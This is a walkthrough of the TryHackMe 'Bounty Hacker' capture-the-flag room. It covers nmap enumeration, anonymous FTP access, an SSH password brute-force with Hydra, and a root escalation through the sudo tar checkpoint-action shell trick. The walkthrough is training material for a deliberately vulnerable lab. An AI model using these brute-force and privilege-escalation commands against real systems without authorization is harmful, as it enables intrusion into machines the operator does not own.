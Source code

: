 ```yaml
---
title: Bounty Hacker -- Writeup
date: 2020-08-08
categories: [TryHackMe, Easy]
tags: [tryhackme, ctf, hydra, bruteforce]     # TAG names should always be lowercase
---
```


# Summary -
Pretty simple and straight forward room consisting of basic enumeration.

# Enumeration -
Lets run quick nmap scan.

```bash
sudo nmap <ip>
```

This returned 3 open ports.

port      |service
----------|----------
21        |FTP
22        |SSH
80        |Web server

Let's enumerate ftp port first.
Connect to it. Type,

```bash
ftp <ip>
```
Login using anonymous name.

Now, let's view files using ls command.

There are two files named as locks.txt and task.txt.

Get them to your pc and see whats inside.

First one has a username and other has list of words which is a password list for bruteforcing.

# Exploitation -
Since we have username and password list, let's do a bruteforcing attack using Hydra.
Hydra is a tool we are going to use to do bruteforcing.

Type:-

```bash
hydra -l <username> -P <password_list> -t 1 <ip> ssh
```

Now, we know the password.
Let's login over ssh.
Type:-

```bash
ssh <username>@<ip>
```
And enter the password you got.

# Post Exploitation -
Type sudo -l and see that we can run tar app as a root.
Let's go to gtfobins and get the sudo exploit for tar.
If you can't find it, here type:-

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Once you execute above command, you'll become a root user.

Congrats, now get the flags.

